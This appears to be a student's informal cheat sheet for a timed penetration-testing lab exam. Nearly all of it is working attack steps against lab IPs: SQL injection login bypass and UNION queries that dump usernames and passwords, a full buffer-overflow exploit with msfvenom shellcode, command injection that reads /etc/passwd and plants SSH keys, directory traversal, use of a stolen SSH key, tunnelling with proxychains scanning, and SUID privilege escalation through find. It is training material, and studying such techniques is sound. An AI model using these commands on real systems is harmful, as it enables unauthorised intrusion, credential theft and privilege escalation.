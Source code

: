 Test priority:
2 parts: 3 hours each.
SQL.
Part 1 closes out after 3 hours.
part 1: basic website
directory traversal
manipulation
command injection
ssh key masquerade
FUCKS EVERYONE:
calm down, read full question.

85% of it is linux based.

NOTES:
--------------------------------
####AUTHENTICATION BYPASS#####
'OR 1='1   $truth statement in username and password
Go to inspect > network (login so you get the post) > post > request > raw (radio button) > paste ?THERAWSTRING into google
x.x.x.x/login.php?username='OR 1='1&password=OR 1='1    ####put a ? after the php, and then paste the RAWSTRING directory after it.
x.x.x.x/login.php?username=%27OR+1%3D%271&passwd=%27OR+1%3D%271   ###Example of what it should look like

######SQL INJECTION QUIERES######
#1 Identify the vulnerable field
'OR 1='1 # Put it in the field or in the url after .php?Selection=1
#2 Identify number of columns
'Union SELECT 1,2,3 #  #might need to add other symbols to break query
#3 Use golden statement
UNION SELECT table_schema,table_name,column_name FROM information_schema.columns
Audi'UNION SELECT table_schema,2,table_name,column_name,5 FROM information_schema.columns
#4 Craft Queries
Audi'UNION SELECT username,2,passwd,4,5 FROM session.userinfo #
## GET METHOD
#1 Identify the vulnerable field
Use the URL after submitting, take out the quest and after Selection=1 or 1=1
#2 Identify number of columns
Selection=4 Union Select 1,2,3
#3 Golden Statement
UNION SELECT table_schema,table_name,column_name FROM information_schema.columns
#4 Craft Queries is the Same
# See Databases
Audi'UNION SELECT table_schema,2,3,4,5 FROM information_schema.columns

######FIND A FILE TO EXPLOIT, RUN AGAINST IT FOR BUFFER OVERFLOW#######
Run sudo -L,
This gives you a file that you can have sudo privelages to run commands through.
/var/tmp/exploitme
Find if the file needs parameters or text input.
./var/tmp/exploitme <<<$(echo "asdasdasd")  ##Accepts text input
./var/tmp/exploitme $(echo "asdasdasd") ##Accepts parameters
Your syntax for running your script against the file will be 
gdb ./exploitme -> run $(python pbuff.py) or gdb ./exploitme -> run <<<$(python pbuff.py)
Your python file will look like: ##########
vim lynnbuff.py
#!/usr/bin/env python

offset = "wijejnsoifoosmkefmsks"
print(offset)
#############
firefox on linux workstation -> wiremask.eu -> tools -> buffer overflow pattern generator.
Copy the Hex given, use that HEX to find the offset (Register Value), use that offset to find the actual offset.
After finding the offset, put amount of characters in your offset and recreate script to ensure its working:
####
#!/usr/bin/env python

offset = "wijejnsoifoosmkefmsks"
eip = "BBBB"
print(offset+eip)
#####
your eip should be 42424242. From here you do:
gdb ./exploitme -> show env -> unset env COLUMNS -> unset env LINES -> show env -> run $(python pbuff.py) -> info proc map -> find /b (START HEX AFTER HEAP),(END HEX BEFORE STACK),
0xff, 0xe4.
The output given take first 5 lines, make your eip your first little endian. "0xf7de3b59 -> \x59\x3b\xde\xf7"
Go to your pc, and make an msfvenom to create your buf:
msfvenom -p linux/x86/exec CMD=whoami -b '\x00' -f python
Final script: ####################
####
#!/usr/bin/env python

offset = "wijejnsoifoosmkefmsks"
eip = "\x59\x3b\xde\xf7"
nop = "\x90" * 15
buf = 
print(offset+eip+nop+buf)

'''
HEX1 -> Little Endian (from the back) 
HEX2
HEX3
HEX4
HEX5
msfvenom -p linux/x86/exec CMD=whoami -b '\x00' -f python
'''
#####
###########SSH MASQUERADE#############
For dumb S WORD !!!!!!!! <!> <!> <!> ############################################################################################################################################
scp HACKER@HACKERIP:FILEPATHTOSSHKEY ME:MYFILEPATH -P ENEMYPORT
tar -xvf /home/student/stolenkey1 -C /home/student/stolenkey1_gun
ssh -MS /tmp/jmp student@10.50.11.224 -L 41010:192.168.28.100:2222
ssh www-data@localhost -p 41010 -D 9050 
proxychains nmap -T5 -Pn 192.168.150.253 -p 0-65535 2>/dev/null
chmod 600 /home/student/stolenkey1_gun/.ssh/id_rsa.pub
ssh -i /home/student/stolenkey1_gun/.ssh/id_rsa Comrade@192.168.150.253 -p 41011
ssh -MS /tmp/jmp student@10.50.11.224 -L 41010:192.168.28.100:2222 -L 41011:192.168.150.253:3201

############################################ PRE-TEST COVER ###################################
First ip address is your target , not a jump box.
Start off by nmapping the given IP, record ports.
Netcat the found ports: nc 10.50.11.179 22
# nmap --script=http-eum 10.50.11.179
firefox -> 10.50.11.179 -> open a tab for every single tab
You can do webpage.login.php?\StuffFoundInEnum and open those files.
#Run an Authentication bypass on the login page. 'OR 1='1 -> ; whoami -> ; cat /etc/passwd , look for users home directory , user2 at bottom
#File to read webpage: ../../../../../../../etc/passwd , /etc/hosts
Malicious File upload: WebEx day 1
Use SSH injection in order to get onto the machine -> ; mkdir -> ssh-kreygen -t rsa -b 4096 -> ; echo "" > /var/www/.ssh/authorized_keys
#ssh -MS /tmp/t1 www-data@10.50.11.179
on PFW machine: for i in {1..255}; do (ping -c 1 192.168.28.$i | grep "bytes from" &); done
Setup dynamic tunnel to scan new target: ## ssh -S /tmp/t1 t1 -O forward -D 9050
scan new target: ## proxychains nmap 192.168.28.165,.1,.175
##proxychains nc 192.168.28.165 22 
##ssh -S /tmp/t1 t1 -O forward -L1111:192.168.28.175:2222 -L1112:192.168.38.175:8000
firefox -> 127.0.0.1:1112
Go through options, use GET method in order to find the correct one.
# ?product=7 OR 1=1 -> UNION SELECT 1,2,3,4 # (error means take a number away) -> (1,3,2) table_schema.column,column_name.table_name from information.schema.columns #
Duplicate the tab in order to save information, # UNION SELECT user_id,name,username from siteusers.users #
Rot13 the creds found, this gives you the passwords for the users you found for the next box. 
# ssh -S /tmp/t1 t1 -O forward -L2222:192.168.28.165:22
# ssh -MS /tmp/t2 user3@127.0.0.1 -p 2222
(user credentials for account from ROT13 decode)
#Enumerate new system, cat /etc/hosts, sudo -l, cat /etc/passwd, find / -type f -perm /6000 -ls 2>/dev/null
Go to GTFObins -> Search find -> SUID method -> ./find . -exec /bin/sh -p \; -quit -> id 
Pingsweep on this machine to look for windows box
ssh -S /tmp/t1 t1 -O cancel -D 9050
ssh -S /tmp/t2 t2 -O forward -D 9050
